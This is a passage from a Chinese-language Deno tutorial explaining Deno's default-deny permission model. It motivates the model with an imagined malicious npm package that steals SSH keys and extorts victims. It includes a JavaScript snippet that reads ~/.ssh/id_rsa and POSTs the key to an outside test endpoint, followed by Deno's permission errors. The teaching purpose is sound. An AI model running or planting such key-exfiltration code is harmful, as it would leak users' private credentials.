 * 可以通过 import url 直接引用线上资源；
  
* 资源不可省略扩展名和文件名。
  

关于第 1 点，争议非常大，有人很看好，觉得极大的扩展了 deno 库的范围；有人则不太看好，觉得国内网速的原因，并不实用。大家的看法如何，欢迎在评论区发表 🤔


### 3.安全


如果模块规范是 node 和 deno 最大的不同，那么对安全的处理，则是另外一个让人摸不着头脑的地方。


#### 模拟盗号
在介绍之前我们先思考一下这个场景会不会出现：

我做了一个基于命令行的一键上网工具 `breakwall`，每月 1 个 G 免费流量，然后将压缩后的 JS 代码发布到 npm 上，然后后在各种渠道宣传一波。

羊毛党兴高彩烈的 `cnpm install -g breakwall`，然后每次使用的时候，我偷偷的将诸位的 ssh 密钥和各种能偷的文档及图片偷偷上传到我的服务器，在设定期限到期后，删除电脑上资料，留下一句拿钱换资料，仅支持比特币。

#### 默认安全的 deno
如果你觉得以上情况有可能出现，则会觉得下面的功能很实用。我们先用 deno 执行以下代码：

```js
// index.js
let rsa = Deno.readFileSync(Deno.dir("home") + "/.ssh/id_rsa");

rsa = new TextDecoder().decode(rsa);

fetch("http://jsonplaceholder.typicode.com/posts/1", {
  method: "POST",
  body: JSON.stringify(rsa)
})
  .then((res) => res.json())
  .then((res) => console.log("密钥发送成功，嘿嘿嘿😜"));

console.log("start breakwall...");
```
运行

```js
deno run --unstable index.js
```
我们将会得到如下报错信息：

```js
> deno run --unstable  index.js
error: Uncaught PermissionDenied: access to environment variables, run again with the --allow-env flag
    ...
```
意思就是权限异常，需要访问环境变量，需要加上 `--allow-env`，我们加上这个参数再试一下

```js
> deno run --unstable --allow-env index.js
error: Uncaught PermissionDenied: read access to "/Users/zhangchaojie/.ssh/id_rsa", run again with the --allow-read flag
    ...
```
如此反复，还需加上 `--allow-read`、`--allow-net` ，最终的结果是：

